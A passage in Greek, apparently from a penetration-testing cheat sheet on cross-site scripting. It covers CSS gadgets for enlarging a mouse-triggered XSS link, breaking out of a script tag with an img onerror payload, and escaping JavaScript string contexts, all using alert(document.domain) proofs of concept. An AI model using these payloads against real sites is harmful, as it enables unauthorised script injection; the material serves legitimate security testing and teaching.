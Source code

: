 **Παράκαμψη για HTML tags και attributes**

Διάβασε τις [Παράκαμψεις Μαύρης Λίστας της προηγούμενης ενότητας](./#blacklist-bypasses).

**Παράκαμψη για κωδικό JavaScript**

Διάβασε την [παράκαμψη μαύρης λίστας JavaScript της επόμενης ενότητας](./#javascript-bypass-blacklists-techniques).

### CSS-Gadgets

Αν βρεις ένα **XSS σε πολύ μικρό μέρος** του ιστού που απαιτεί κάποια αλληλεπίδραση (ίσως ένα μικρό σύνδεσμο στο υποσέλιδο με ένα στοιχείο onmouseover), μπορείς να προσπαθήσεις να **τροποποιήσεις τον χώρο που καταλαμβάνει αυτό το στοιχείο** για να μεγιστοποιήσεις τις πιθανότητες να ενεργοποιηθεί ο σύνδεσμος.

Για παράδειγμα, θα μπορούσες να προσθέσεις κάποια στυλ στο στοιχείο όπως: `position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: red; opacity: 0.5`

Αλλά, αν το WAF φιλτράρει το attribute style, μπορείς να χρησιμοποιήσεις CSS Styling Gadgets, οπότε αν βρεις, για παράδειγμα

> .test {display:block; color: blue; width: 100%\}

και

> \#someid {top: 0; font-family: Tahoma;}

Τώρα μπορείς να τροποποιήσεις τον σύνδεσό μας και να τον φέρεις στη μορφή

> \<a href="" id=someid class=test onclick=alert() a="">

Αυτό το κόλπο ελήφθη από [https://medium.com/@skavans\_/improving-the-impact-of-a-mouse-related-xss-with-styling-and-css-gadgets-b1e5dec2f703](https://medium.com/@skavans\_/improving-the-impact-of-a-mouse-related-xss-with-styling-and-css-gadgets-b1e5dec2f703)

## Εισαγωγή μέσα στον κωδικό JavaScript

Σε αυτές τις περιπτώσεις η **είσοδός** σου θα **αντανακλάται μέσα στον κωδικό JS** ενός αρχείου `.js` ή μεταξύ των ετικετών `<script>...</script>` ή μεταξύ HTML events που μπορούν να εκτελέσουν κωδικό JS ή μεταξύ attributes που δέχονται το πρωτόκολλο `javascript:`.

### Διαφυγή ετικέτας \<script>

Αν ο κωδικός σου εισάγεται μέσα σε `<script> [...] var input = 'reflected data' [...] </script>` μπορείς εύκολα να **διαφύγεις κλείνοντας την ετικέτα `<script>`**:
```javascript
</script><img src=1 onerror=alert(document.domain)>
```
Σημειώστε ότι σε αυτό το παράδειγμα **δεν έχουμε καν κλείσει την απλή παράθεση**. Αυτό συμβαίνει επειδή **η ανάλυση HTML εκτελείται πρώτα από τον περιηγητή**, η οποία περιλαμβάνει την αναγνώριση στοιχείων της σελίδας, συμπεριλαμβανομένων των μπλοκ σεναρίου. Η ανάλυση της JavaScript για να κατανοήσει και να εκτελέσει τα ενσωματωμένα σενάρια πραγματοποιείται μόνο αργότερα.

### Μέσα στον κώδικα JS

Εάν τα `<>` απολυμαίνονται, μπορείτε ακόμα να **διαφύγετε τη συμβολοσειρά** όπου η είσοδός σας είναι **τοποθετημένη** και να **εκτελέσετε αυθαίρετη JS**. Είναι σημαντικό να **διορθώσετε τη σύνταξη JS**, γιατί αν υπάρχουν σφάλματα, ο κώδικας JS δεν θα εκτελεστεί:
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
### Template literals \`\`
